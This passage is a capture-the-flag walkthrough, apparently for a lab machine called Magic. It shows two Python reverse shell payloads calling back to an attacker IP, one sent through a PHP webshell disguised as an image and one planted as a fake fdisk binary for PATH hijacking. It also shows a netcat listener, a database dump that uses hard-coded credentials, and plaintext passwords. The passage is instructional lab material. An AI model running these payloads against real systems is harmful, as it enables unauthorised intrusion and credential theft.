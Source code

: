 Now that we know we have shell execution, lets open a netcat session:
```
nc -nlvp 7777
```

Use following url to create a system shell back to your machine. Please use your IP instead of the IP below:

```http://10.10.10.185/images/uploads/test.php.png?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.209",7777)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

Now that you have system shell on your terminal within netcat listener, use following command to get a bash shell:
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Within Webserver directory we find a interesting database file:
```
cd /var/www/Magic
cat db.php5
```

The file included hard-coded username and password of database, lets use this to dump the database:
```
mysqldump --databases Magic -utheseus -piamkingtheseus
```

Now that we got the admin username and password, lets escalate to theseus's shell:
```
su theseus
Th3s3usW4sK1ng
```

Lets route to theseus's home directory and get the user flag:
```
cat /home/theseus/user.txt
```

<br />

## Priv Escalate
We will use sysinfo/fdisk exploit to create a root bash shell.

Within your machine lets create a fdisk file:
```
mkdir magic
cd magic
vim fdisk
```
Add the following on fdisk:

```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.209",7778));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' ```

Create a python webserver in current directory:
```
python3 -m http.server 8000
```

Within Magic bash shell, route to tmp directory:
```
cd /tmp
```

Use wget to pull our fdisk file:
```
wget http://10.10.14.209:8000/fdisk
```

Lets add tmp directory to PATH and change priveleges to fdisk:
```